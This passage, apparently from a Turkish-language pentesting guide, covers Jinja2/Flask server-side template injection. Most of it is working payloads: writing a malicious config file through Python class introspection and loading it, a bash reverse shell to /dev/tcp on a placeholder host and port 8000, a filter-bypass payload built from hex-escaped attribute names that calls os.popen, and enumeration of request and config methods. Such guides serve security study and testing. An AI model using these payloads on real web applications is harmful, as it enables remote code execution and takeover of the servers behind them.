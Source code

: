 **HTML kodlamasından kaçınma**

Varsayılan olarak Flask, güvenlik nedenleriyle bir şablonun içindeki her şeyi HTML kodlar:
```python
{{'<script>alert(1);</script>'}}
#will be
&lt;script&gt;alert(1);&lt;/script&gt;
```
**`safe`** filtresi, JavaScript ve HTML'yi sayfaya **HTML kodlaması** olmadan enjekte etmemize olanak tanır, şöyle:
```python
{{'<script>alert(1);</script>'|safe}}
#will be
<script>alert(1);</script>
```
**Kötü bir yapılandırma dosyası yazarak RCE.**
```python
# evil config
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
## Birkaç karakter olmadan

**`{{`** **`.`** **`[`** **`]`** **`}}`** **`_`** olmadan
```python
{% raw %}
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
{% endraw %}






```
## Jinja Injection without **\<class 'object'>**

[**global objects**](jinja2-ssti.md#accessing-global-objects) içinden **o sınıfı kullanmadan RCE'ye ulaşmanın** başka bir yolu vardır.\
Eğer bu global nesnelerden herhangi bir **fonksiyona** ulaşmayı başarırsanız, **`__globals__.__builtins__`**'e erişebilir ve buradan **RCE**'ye ulaşmak çok **basit** olacaktır.

Erişim sağladığınız **`request`**, **`config`** ve diğer ilginç **global nesnelerden** fonksiyonları **bulabilirsiniz**:
```bash
{{ request.__class__.__dict__ }}
- application
- _load_form_data
- on_json_loading_failed

{{ config.__class__.__dict__ }}
- __init__
- from_envvar
- from_pyfile
- from_object
- from_file
- from_json
```